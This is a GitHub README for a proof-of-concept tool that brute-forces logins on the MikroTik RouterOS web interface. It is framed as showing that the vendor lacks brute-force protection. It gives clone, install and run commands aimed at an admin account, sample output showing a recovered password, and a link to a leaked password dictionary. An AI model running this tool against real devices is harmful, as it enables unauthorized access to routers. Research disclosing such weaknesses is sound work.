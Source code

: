 # _mikro_-BRUTUS

PoC (Proof of Concept) Bruteforcing Utility RouterOS v6.48.6

_Mikro-BRUTUS_ is a simple proof of concept dictionary and blind brute forcing tool targeting the MikroTik RouterOS 6.x web interface. RouterOS notiously lacks brute force protections on the web and winbox interfaces. They've largely coasted off their custom authentication/encryption schemes from preventing these attacks.

Luckily [Margin Research](https://margin.re/2022/06/pulling-mikrotik-into-the-limelight/) released a python library that can handle authentication from 6.34 - 6.49.8 (current release).

This was written in about 10 minutes, and only to prove that MikroTik hasn't implemented any protections on the web interface.

## Example Usage

```sh
git clone https://github.com/oyi77/mikro-brutus.git
cd mikro-brutus
python3 -m pip install -r requirements.txt
python3 bruteme.py --rhost 10.9.49.1 --username admin
Attempt 201
Success! Valid credentials:
admin:1qazxsw2
```

## Credit

- Margin Research - webfig.py is their work (with one tweak). The original can be found [here](https://github.com/MarginResearch/FOISted/blob/master/webfig.py).

- Bruteforce Dictionary - dictionary.txt is forked from the original leaked password dict. That can be found in the [here](http://downloads.skullsecurity.org/passwords/rockyou.txt.bz2).
